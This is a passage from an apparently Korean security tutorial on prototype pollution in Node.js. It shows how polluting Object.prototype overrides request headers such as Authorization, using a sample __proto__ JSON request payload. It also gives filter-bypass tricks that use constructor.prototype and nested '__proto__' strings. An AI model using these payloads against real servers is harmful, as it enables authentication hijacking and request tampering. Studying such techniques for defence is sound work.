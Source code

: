 ##### Node

- Object.prototype에 헤더 속성이 오염되어 있으면, `dest[field] === undefined` 조건은 false가 되어 실제 요청 헤더가 무시되고, **공격자가 삽입한 오염된 속성값이 우선 적용되는 결과**가 발생합니다.

```js
IncomingMessage.prototype._addHeaderLine = _addHeaderLine;
function _addHeaderLine(field, value, dest) {
    // ...
    } else if (dest[field] === undefined) {
        // Drop duplicates
        dest[field] = value;
    }
}
```

- 서버가 `req.headers['authorization']`을 읽으려 할 때, 실제 헤더가 무시되고 오염된 Bearer attacker_token이 적용되게됩니다.

```http
POST /api/some-endpoint HTTP/1.1
Host: logiciris.com
Content-Type: application/json
Authorization: Bearer legit-user-token

{
  "__proto__": {
    "authorization": "Bearer attacker-token"
  }
}
```

- 위와같은 방식으로 다른 모든 헤더에도 적용이 가능합니다.

## 5. 우회방안

### `__proto__` 필터링 되어있을 경우

1. `constructor` 사용하여 우회
   - `myObject.constructor.prototype` 이것은 `myObject.__proto__` 이것과 동일합니다.

```js
myObject.constructor.prototype;
```

2. 단순 문자열 제거 시 우회

```text

// 기존
vulnerable-website.com/?__proto__.gadget=payload

// 우회
vulnerable-website.com/?__pro__proto__to__.gadget=payload

```
